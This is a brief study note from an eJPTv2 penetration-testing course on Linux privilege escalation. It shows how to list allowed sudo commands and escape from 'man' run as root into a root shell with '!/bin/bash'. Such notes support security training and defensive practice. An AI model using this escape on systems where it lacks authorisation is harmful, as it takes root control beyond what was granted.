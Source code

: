 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/Post-Exploitation/Linux Privilege Escalation/Linux Privilege Escalation]]"
---
```


# SUDO Privileges

## Demonstration

```bash
# list command I can run
sudo -l
# /usr/bin/man can be run as root
sudo man ls 
!/bin/bash
```
